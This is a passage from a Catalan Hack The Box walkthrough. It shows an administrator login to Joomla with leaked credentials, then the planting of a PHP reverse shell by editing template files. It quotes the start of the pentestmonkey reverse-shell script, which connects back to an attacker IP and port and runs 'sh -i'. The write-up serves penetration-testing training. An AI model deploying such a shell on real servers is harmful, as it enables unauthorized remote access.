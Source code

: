 I tenim les dades de la BD, la passwd, etc. A més tenim l’usuari lewis que és Superusuari i podríem provar si funciona:

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/4ae51077-4258-4435-8b73-f3c6c09d59f2)


I funciona i estem a dins de Joomla amb un usuari administrador, tot per tenir un software desactualitzat:

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/b4ced7b2-73de-4779-afea-d75b9cd0c1cb)


Ara aquí dins, veiem que ens salta un missatge que ens diu que té una versió de PHP obsoleta, es podria investigar per aquí.

Ara hem de buscar alguna pàgina PHP on puguem injectar codi per obrir-nos una shell. 
Anirem a buscar el sistema de templates:

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/0d38f17b-e9c1-4f1f-8f18-c6e9aeb6de3f)


Anem a veure els fitxers del template:

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/89f3403a-7c9e-488b-8e09-68359720a153)


I els podem editar, per tant hem de buscar un reverse shell amb PHP, també en podem pujar o editar un:

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/dfcf9a2b-eb35-4caa-a84c-7cbff831bb33)

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/137bf4f8-7b62-4538-ac1a-b7bcf847079e)


Provarem aquesta comanda per fer la reverse shell trobada a aquesta url:

https://www.revshells.com/ i és la reverse shell que es diu ‘PHP PentestMonkey’

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped
to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/phpreverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.10.10';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;
if (function_exists('pcntl_fork')) {
 $pid = pcntl_fork();

 if ($pid == -1) {
 printit("ERROR: Can't fork");
 exit(1);
 }

 if ($pid) {
 exit(0); // Parent exits
 }
 if (posix_setsid() == -1) {
 printit("Error: Can't setsid()");
 exit(1);
 }
```